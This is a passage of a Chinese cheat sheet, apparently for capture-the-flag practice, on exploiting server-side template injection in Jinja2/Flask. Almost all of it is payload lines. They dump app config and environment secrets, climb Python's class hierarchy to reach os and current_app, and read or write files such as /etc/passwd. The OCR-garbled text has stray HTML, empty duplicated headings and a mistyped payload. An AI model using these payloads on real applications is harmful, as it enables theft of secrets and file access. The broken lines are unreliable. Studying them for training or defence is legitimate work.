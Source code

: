 
---


---


## 二、针对性利用

> 
<h3>2.1、获取基础信息：</h3>
<h4>config:</h4>
{{config}}：可以获取当前设置
<hr/>
<h4>self:</h4>
{{self}} ⇒ &lt;TemplateReference None&gt;
{{self.__dict__._TemplateReference__context.config}}
<hr/>
<h4>""、[]、()</h4>
配合__class__.__mro__[2]这样找到object类
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG']}}
<hr/>
<h4>更多</h4>
url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config等
如果config，self不能使用，要获取配置信息，就必须从它的上部全局变量（访问配置current_app等）
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}


#### self:

---


#### 更多

> 
<h3>2.2、获取基类</h3>
''.__class__.__mro__[2]        #python2.7
''.__.class__.__mro__[1]        #python3.7
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]


> 
<h3>2.3、读写文件</h3>
<h4>第一步：</h4>
''.__class__
&lt;class 'str'&gt;#获取''字符串的所属对象
<hr/>
<h4>第二步：</h4>
''.__class__.__mro__
(&lt;class 'str'&gt;, &lt;class 'object'&gt;)#获取str类的父类
<hr/>
<h4>第三步：</h4>
''.__class__.__mro__[1].__subclasses__()
&lt;……&gt;#获取object类的所有子类
<hr/>
<h4>第四步：</h4>
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
读是read(),写是write()